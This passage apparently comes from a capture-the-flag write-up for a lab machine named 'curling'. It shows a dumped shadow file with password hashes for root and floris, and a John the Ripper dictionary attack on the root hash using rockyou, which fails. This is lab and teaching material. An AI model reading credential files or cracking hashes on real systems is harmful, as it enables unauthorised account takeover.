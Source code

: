 
```
floris@curling:~/admin-area$ cat report 
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
daemon:*:17647:0:99999:7:::
bin:*:17647:0:99999:7:::
sys:*:17647:0:99999:7:::
sync:*:17647:0:99999:7:::
games:*:17647:0:99999:7:::
man:*:17647:0:99999:7:::
lp:*:17647:0:99999:7:::
mail:*:17647:0:99999:7:::
news:*:17647:0:99999:7:::
uucp:*:17647:0:99999:7:::
proxy:*:17647:0:99999:7:::
www-data:*:17647:0:99999:7:::
backup:*:17647:0:99999:7:::
list:*:17647:0:99999:7:::
irc:*:17647:0:99999:7:::
gnats:*:17647:0:99999:7:::
nobody:*:17647:0:99999:7:::
systemd-network:*:17647:0:99999:7:::
systemd-resolve:*:17647:0:99999:7:::
syslog:*:17647:0:99999:7:::
messagebus:*:17647:0:99999:7:::
_apt:*:17647:0:99999:7:::
lxd:*:17647:0:99999:7:::
uuidd:*:17647:0:99999:7:::
dnsmasq:*:17647:0:99999:7:::
landscape:*:17647:0:99999:7:::
pollinate:*:17647:0:99999:7:::
sshd:*:17647:0:99999:7:::
floris:$6$yl7KKyGaOhVExlCb$ONJceChbI7srpLlJ/AhCLgESU7E4gXexPVgsJMjvQ0hP.6fwslfwWmD15cuaYs9./Jin4e/4LURPgEBav4iv//:17673:0:99999:7:::
mysql:!:17673:0:99999:7:::
```

I tried to crack the root hash with `John`, but I don't think the password was in the *rockyou* list.

```
$ cat root.shadow
root:$6$RIgrVboA$HDaB29xvtkw6U/Mzq4qOHH2KHB1kIR0ezFyjL75DszasVFwznrsWcc1Tu5E2K4FA7/Nv8oje0c.bljjnn6FMF1:17673:0:99999:7:::
```

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt root.shadow
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 512/512 AVX512BW 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:18:55 DONE (2022-10-30 22:29) 0g/s 12631p/s 12631c/s 12631C/s !%twodee!%..*7¡Vamos!
Session completed.
```
